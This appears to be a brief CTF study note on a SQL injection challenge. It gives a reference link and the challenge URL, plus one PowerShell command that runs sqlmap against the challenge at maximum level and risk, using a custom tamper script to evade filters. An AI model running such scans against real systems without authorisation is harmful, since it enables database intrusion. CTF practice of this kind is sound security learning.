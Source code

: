 # sql injection - database

- ref 1:
https://www.cnblogs.com/hetianlab/p/16012663.html
- 題目:
http://ctf.adl.tw:12003/

The idea 
```ps
PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -u http://ctf.adl.tw:12003/ --level=5 --risk=3  --tamper=my_tamper/my_tamper.py
```